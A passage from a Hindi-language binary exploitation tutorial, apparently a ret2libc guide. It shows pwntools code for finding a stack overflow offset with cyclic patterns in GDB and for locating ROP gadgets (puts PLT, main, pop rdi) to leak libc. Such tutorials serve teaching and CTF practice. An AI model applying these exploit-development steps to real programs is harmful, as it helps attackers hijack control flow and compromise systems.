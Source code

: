 # 1- ऑफसेट ढूंढ़ना

एक्सप्लॉइट के साथ आगे बढ़ने से पहले टेम्पलेट को एक ऑफसेट की आवश्यकता होती है। यदि कोई भी प्रदान किया जाता है तो यह उसे ढूंढ़ने के लिए आवश्यक कोड को निष्पादित करेगा (डिफ़ॉल्ट रूप से `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**क्रियान्वयित करें** `python template.py` एक GDB कंसोल खुलेगा जिसमें कार्यक्रम क्रैश हो जाएगा। उस GDB कंसोल में `x/wx $rsp` क्रियान्वित करें ताकि RIP को ओवरराइट करने वाले बाइट्स प्राप्त किए जा सकें। अंत में एक **पायथन** कंसोल का उपयोग करके **ऑफसेट** प्राप्त करें:
```python
from pwn import *
cyclic_find(0x6161616b)
```
![](<../../../.gitbook/assets/image (140).png>)

ऑफसेट (इस मामले में 40) को खोजने के बाद, उस मान का उपयोग करके टेम्पलेट में OFFSET चर को बदलें।\
`OFFSET = "A" * 40`

एक और तरीका हो सकता है: `pattern create 1000` -- _execute until ret_ -- `pattern seach $rsp` from GEF.

# 2- गैजेट्स खोजना

अब हमें बाइनरी में ROP गैजेट्स खोजने की आवश्यकता है। ये ROP गैजेट्स `puts` को कॉल करने के लिए उपयोगी होंगे ताकि **libc** का पता लगाया जा सके, और बाद में **अंतिम अधिकार** को शुरू करने के लिए।
```python
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts
MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
```
`PUTS_PLT` को **फ़ंक्शन puts** को कॉल करने के लिए आवश्यक है।\
`MAIN_PLT` को **मुख्य फ़ंक्शन** को फिर से कॉल करने के लिए आवश्यक है, एक इंटरेक्शन के बाद **ओवरफ़्लो का शोध** करने के लिए (असीमित दौरों के अधिग्रहण के लिए)। **यह प्रोग्राम को फिर से कॉल करने के लिए हर ROP के अंत में उपयोग किया जाता है**।\
**POP\_RDI** को **पैरामीटर** को कॉल करने के लिए आवश्यक है।
